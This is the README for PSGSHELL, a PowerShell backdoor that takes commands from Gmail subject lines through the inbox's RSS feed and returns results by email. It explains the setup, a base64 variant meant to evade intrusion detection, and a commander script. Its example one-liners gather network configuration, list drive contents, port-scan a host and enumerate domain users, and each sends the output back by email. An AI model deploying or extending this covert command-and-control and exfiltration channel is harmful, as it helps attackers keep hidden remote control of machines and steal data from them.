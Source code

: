 # PSGSHELL

New version in the base64 folder encodes the subject lines/commands to help thwart IDS/IPS's looking for such things.

Setup:
Create a new gmail account for this and only this.
Allow non-secure apps

Both Scripts require that you set the email address and password variables at the top of the newly created gmail account.

Built for Powershell 2.0 (Win7) 

syntax is: 
To Return Output:

commander.ps1 '$variable = powershell oneliner; sendemail $variable ~host:host:host'

Without Returning output:

commander.ps1 'powershell oneliner ~host:host:host'


Examples: All One Liner commands

# Get IP address
.\commander.ps1 '$var = ipconfig /all; sendemail $var ~123434'

# List C drive contents and send them back to email
.\commander.ps1 '$var = get-childitem c:\; sendmail $var ~123434'

#port scan a host
.\commander.ps1 '$var = 1..1024 | % { echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.10",$_)) "$_ is open"; sendemail $var ~123434'

# Get domain users (Net user /domain) but parsed for powershell output
.\commander.ps1 '$output = net user /domain;$output = $output[6..($output.length-3)];$output = $output -split "\s+" ;$output = $output | ? {$_}; sendemail $output ~123434'

# How it Works
This script utilizes the GMAIL rss feed "https://mail.google.com/mail/feed/atom" and parses the subject lines of the emails. 
The '~' is the delimiter between the powershell command at the front of the subject and the client names at the end.

.\commander.ps1 '$var = ipconfig /all; sendemail $var ~123434:343454:32233'

Currently the script accepts a single input that is the PS ONELINER, an optional sendmail, followed by the '~' and then $client_names which there can be multiple but should be seperated by colons.
PSGSHELL.ps1 is the client or backdoor
commander.ps1 is a script that sends the commands to the inbox (very simple)